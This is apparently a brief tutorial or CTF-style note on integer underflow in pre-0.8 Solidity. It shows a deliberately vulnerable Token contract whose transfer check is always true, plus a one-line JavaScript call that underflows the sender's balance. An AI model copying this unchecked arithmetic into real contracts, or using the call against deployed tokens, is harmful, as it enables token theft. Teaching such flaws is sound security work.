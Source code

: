 # Integer Under/Overflows

If SafeMath is missing, this means we can make the value of any `unit` variable large or very small

Example vuln code, assume we as the msg.sender start with 20 tokens:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

The transfer function is the vulnerable function that we can trigger an underflow with to obtain wayyyy more tokens:

```javascript
await contract.transfer('anyaddress', 20+1)
```

